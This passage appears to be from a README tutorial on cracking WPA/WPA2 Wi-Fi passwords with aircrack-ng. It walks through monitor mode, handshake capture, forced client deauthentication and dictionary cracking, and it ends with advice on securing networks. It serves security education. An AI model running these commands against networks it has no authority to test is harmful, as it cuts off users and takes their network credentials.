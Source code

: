 ### Step 2: Enable Monitor Mode
```bash
airmon-ng start wlan0
```
Enables monitor mode, required for capturing handshake packets.

### Step 3: Scan for WPA/WPA2 Networks
```bash
airodump-ng wlan0
```
Scan for the target WPA/WPA2 network. Note its BSSID, channel, and ESSID.

### Step 4: Capture the Handshake
```bash
# Create folder
cd ~/Desktop && mkdir demo_wep && cd demo_wep

# Capture the Handshake
airodump-ng --bssid <BSSID> -c <CH> -w wifi_demo wlan0
```
Focus on the target network and wait for a device to connect or reconnect. This captures the WPA handshake.

### Step 5: Deauthenticate Client (Force Reconnect)
```bash
aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT_MAC> wlan0
```
This sends disconnect packets to a client device, forcing it to reconnect and trigger a new handshake that we can capture.

You should see a message like:
```
[ WPA handshake: <BSSID> ]
```

### Step 6: Crack the Handshake with a Wordlist
```bash
aircrack-ng wifi_demo.cap -w wordlist.txt
```
This runs a dictionary attack, testing passwords from `wordlist.txt` against the captured handshake.

### Step 7: Cleanup
```bash
airmon-ng stop wlan0mon
service NetworkManager restart
```
Restores your adapter back to normal mode.

---

### Recommendations for Securing Wi-Fi Networks
- Use **WPA2 or WPA3** whenever possible.
- Avoid **WEP** and **WPA** (insecure).
- Choose **strong, unique passwords** not found in common dictionaries.
- Change default router settings (SSID, admin password).
- Disable WPS (Wi-Fi Protected Setup).
- Monitor connected devices regularly.
- Use VLANs and guest networks to separate traffic.
